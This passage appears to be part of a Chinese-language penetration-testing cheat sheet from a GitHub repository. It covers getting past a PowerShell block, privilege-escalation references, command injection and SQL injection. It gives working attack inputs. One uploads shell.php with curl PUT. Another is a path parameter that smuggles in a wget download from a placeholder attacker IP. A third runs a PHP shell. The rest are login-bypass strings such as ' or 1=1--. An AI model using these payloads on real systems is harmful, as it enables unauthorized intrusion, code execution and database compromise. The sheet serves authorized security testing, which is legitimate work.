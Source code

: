````bash
```
Powershell.exe被阻止

Use 'not powershell' https://github.com/Ben0xA/nps

## <center>提权</center> ##

### Linux ###

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

https://github.com/pentestmonkey/unix-privesc-check

### Windows ###

https://github.com/pentestmonkey/windows-privesc-check

http://www.fuzzysecurity.com/tutorials/16.html

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

## <center>命令行注入</center> ##

### 遍历文件 ##

`website.com/file.php[?path=/]`

### 使用curl探测HTTP options ###

`curl -vX OPTIONS [website]`

### 使用CURL将文件上传到具有PUT方法的网站 ###

```bash
curl --upload-file shell.php --url http://192.168.218.139/test/shell.php --http1.0
```
### 传输文件 ###

```bash
?path=/;wget http://IPADDRESS:8000/FILENAME.EXTENTION;
```

### 连接shell ###

```bash
;php -f filelocation.php
```

## <center>SQL注入</center> ##

### 注入 ###

登录表单的常见注入:

- admin' --
- admin' #
- admin'/*
- ' or 1=1--
- ' or 1=1#
- ' or 1=1/*
- ') or '1'='1--
- ') or ('1'='1---


````